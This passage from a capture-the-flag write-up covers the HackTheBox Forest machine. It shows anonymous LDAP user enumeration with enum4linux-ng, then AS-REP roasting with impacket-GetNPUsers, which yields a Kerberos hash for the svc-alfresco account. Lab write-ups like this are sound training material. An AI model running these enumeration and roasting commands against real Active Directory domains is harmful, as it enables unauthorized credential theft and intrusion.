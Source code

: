 # Foothold
No credentials were provided with this challenge, so our initial plan will be to enumerate target to lookup users and try AS-REPRoasting. But first let's add DC domain to our `/etc/hosts`.

```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ echo "$TARGET htb.local" | sudo tee -a /etc/hosts
10.129.43.111 htb.local
```

And proceed to enumeration with `enum4linux-ng`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ enum4linux-ng htb.local -oA enum
```

It was able to find users (due to anonymous access to LDAP). We will check if some of them have `DONT_REQ_PREAUTH` set to `true` and thus are AS-REPRoastable.

```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ cat enum.json | jq -r .users[].username > users.txt && \
impacket-GetNPUsers htb.local/ -usersfile users.txt -outputfile hashes.txt -format hashcat -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:32b1386a1cf17a07856f22927d032ea4$a621d53d94d83f2b8f1832e0225f4f4bd72796ad8596af0019efa3975dfb487a2804a346a91b6d8b28cae1b61ba417b135cda6114f90fa2534c508dececa82af7253e31d9e40dc80f6f6c9a54ee734051577b42e623ece57f0eef88d558a1f09c5256e4ef7d7deaba998b5eff701171c2d5918ac58427170f4a1070fdf010c70dc3cdcd0a9dbb281306741b1bbf8a80d238845b9e09e72831022ac0f3965050310b89f94f9854d13dcb593f981e139237a71d7548796d7cc7c9e0ebf026836801b388162bf864d3a6e5e375dab0b78c982e4bb9a9d46f29a88e61a57bdfe27186b9f4ea9205c
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```